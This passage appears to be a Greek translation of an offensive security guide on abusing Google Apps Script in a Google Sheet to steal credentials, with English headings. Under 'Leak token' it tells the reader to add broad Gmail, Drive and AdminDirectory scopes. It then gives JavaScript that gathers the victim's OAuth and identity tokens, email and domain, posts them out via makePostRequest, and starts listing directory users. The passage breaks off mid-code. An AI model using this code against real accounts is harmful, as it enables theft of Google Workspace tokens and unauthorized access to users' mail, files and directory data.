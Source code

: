 ### Create App Script

Υπάρχουν αρκετοί τρόποι για να δημιουργήσετε ένα App Script, αν και οι πιο συνηθισμένοι είναι **από ένα Google Document (οποιουδήποτε τύπου)** και ως **αυτόνομο έργο**:

<details><summary>Create a container-bound project from Google Docs, Sheets, or Slides</summary></details>

<details><summary>Create a standalone project</summary></details>

<details><summary>Create a standalone project from Google Drive</summary></details>

<details><summary>Create a container-bound project from Google Forms</summary></details>

<details><summary>Create a standalone project using the clasp command line tool</summary></details>

## App Script Scenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Create Google Sheet with App Script

Ξεκινήστε δημιουργώντας ένα App Script, η σύστασή μου για αυτό το σενάριο είναι να δημιουργήσετε ένα Google Sheet και να μεταβείτε στο **`Extensions > App Scripts`**, αυτό θα ανοίξει ένα **νέο App Script για εσάς συνδεδεμένο με το φύλλο**.

### Leak token

Για να δώσετε πρόσβαση στο OAuth token πρέπει να κάνετε κλικ στο **`Services +` και να προσθέσετε scopes όπως**:

* **AdminDirectory**: Πρόσβαση σε χρήστες και ομάδες του καταλόγου (αν ο χρήστης έχει αρκετά δικαιώματα)
* **Gmail**: Για πρόσβαση σε δεδομένα gmail
* **Drive**: Για πρόσβαση σε δεδομένα drive
* **Google Sheets API**: Έτσι ώστε να λειτουργεί με το trigger

Για να αλλάξετε εσείς τους **απαραίτητους scopes** μπορείτε να μεταβείτε στις ρυθμίσεις του έργου και να ενεργοποιήσετε: **`Show "appsscript.json" manifest file in editor`.**

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
```